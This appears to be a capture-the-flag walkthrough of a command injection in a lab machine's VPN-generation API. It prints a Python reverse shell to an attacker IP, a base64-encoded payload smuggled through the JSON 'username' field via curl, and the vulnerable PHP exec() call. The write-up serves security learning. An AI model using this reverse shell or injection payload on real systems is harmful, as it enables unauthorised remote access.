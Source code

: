 ### Command Injection

The response contains an OpenVPN connection configuration. The configuration is generated via calling an external command, most possibly, in the backend, so it's likely that the endpoint may have a command injection vulnerability.

We can confirm our guess by inserting commands like `ping -c 1 <our_ip>` or `sleep 10`, etc.

### Reverse Shell

To use the one-line reverse shell written in Python:

{% code title="back.sh" overflow="wrap" %}
```bash
python3 -c 'import socket,pty,os;s=socket.socket();s.connect(("10.10.14.9",4444));[os.dup2(s.fileno(),i) for i in range(3)];pty.spawn("/bin/bash");'
```
{% endcode %}

We encode our shell script with base64 encode:

{% code overflow="wrap" %}
```bash
$ cat back.sh |base64 -w0
cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxwdHksb3M7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksaSkgZm9yIGkgaW4gcmFuZ2UoMyldO3B0eS5zcGF3bigiL2Jpbi9iYXNoIik7Jwo=
```
{% endcode %}

Finally, we insert it into the API endpoint to execute a remote command and get our reverse shell back:

{% code overflow="wrap" %}
```bash
$ curl -XPOST -H 'Cookie: PHPSESSID=con8fjcogd68ijh3slf0la0ngb' http://2million.htb/api/v1/admin/vpn/generate -i -H 'Content-Type: application/json' -d '{"username":"jarjar;echo -n cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxwdHksb3M7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksaSkgZm9yIGkgaW4gcmFuZ2UoMyldO3B0eS5zcGF3bigiL2Jpbi9iYXNoIik7Jwo=|base64 -d|bash"}'
```
{% endcode %}

### Code Review

We can see the cause of the command injection vulnerability in the PHP code `/var/www/html/controllers/VPNController.php`:

```php
    public function regenerate_user_vpn($router, $user = null) {
        if ($user != null) {
            exec("/bin/bash /var/www/html/VPN/gen.sh $user", $output, $return_var);
        } else {
            if (!isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true) {
                return header("HTTP/1.1 401 Unauthorized");
                exit;
            }
            if (!isset($_SESSION['username']) || $_SESSION['username'] == null) {
                return header("HTTP/1.1 401 Unauthorized");
                exit;
            }

            $username = $this->remove_special_chars($_SESSION['username']);
            $fileName = $username. ".ovpn";

            exec("/bin/bash /var/www/html/VPN/gen.sh $username", $output, $return_var);

            $this->download_vpn($fileName);
        }
```